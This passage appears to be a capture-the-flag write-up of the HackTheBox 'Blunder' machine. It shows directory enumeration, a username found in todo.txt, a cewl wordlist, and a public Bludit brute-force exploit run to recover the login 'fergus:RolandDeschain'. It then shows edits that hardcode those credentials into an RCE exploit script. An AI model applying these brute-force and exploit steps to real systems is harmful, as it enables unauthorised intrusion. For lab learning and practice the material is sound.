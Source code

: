 There are quite a lot of exploits, Directory Traversal, Credential Brute-force, and RCE. 

RCE (https://github.com/0xkasra/CVE-2019-16113) requires credential so I start cracking password first (https://www.exploit-db.com/exploits/48942).

Before I can brute-force password, I need to find user.

```bash
ghost@localhost [15:37:02] [~/Documents/hacking/tj-null-boxes/blunder] [master *]
-> % feroxbuster -u http://$IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -k -x txt

200      GET      105l      303w     3281c http://10.10.10.191/about
200      GET      170l      918w     7562c http://10.10.10.191/0
301      GET        0l        0w        0c http://10.10.10.191/admin => http://10.10.10.191/admin/
401      GET        0l        0w        0c http://10.10.10.191/admin/ajax
200      GET        2l        4w       22c http://10.10.10.191/robots.txt
200      GET        4l       23w      118c http://10.10.10.191/todo.txt
200      GET      110l      387w     3960c http://10.10.10.191/usb
200      GET       21l      171w     1083c http://10.10.10.191/LICENSE
```

In `todo.txt` found a potential user `fergus` (http://10.10.10.191/todo.txt).

```bash
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

The brute-force script cannot read `rockyou.txt`. It gives Unicode decode error. After some googling, found that using `errors='replace` fixes the issue.

```python
passfile = open(Password_list, encoding="utf-8", errors='replace').readlines()
```

However, no luck with rockyou.txt. So instead I created a custom wordlist using `cewl`.

```bash
ghost@localhost [16:05:52] [~/Documents/hacking/tj-null-boxes/blunder] [master *]
-> % cewl http://10.10.10.191 > cewl-passwords.txt
```

Found a credential this time.

```bash
ghost@localhost [16:10:53] [~/Documents/hacking/tj-null-boxes/blunder] [master *]
-> % python3 48942.py -l http://10.10.10.191/admin/login.php -u users.txt -p cewl-passwords.txt

[*] SUCCESS !!
[+] Use Credential -> fergus:RolandDeschain
```

Then I updated the script of RCE.

```python
... # line 64
		bruteforce_username = 'N'

... # line 67
	        get_username = 'fergus' # input("[ ~ ] What username should I use? (leave this to use admin as username): ")

... # line 82
            if get_username != '':
                # passwd_list = input("[ ~ ] Enter the location for password list: ")
                # print()
                # hacked_pass = password_bruteforce(target=target_url, wordlist=passwd_list, username=get_username)
                hacked_pass = "RolandDeschain"
```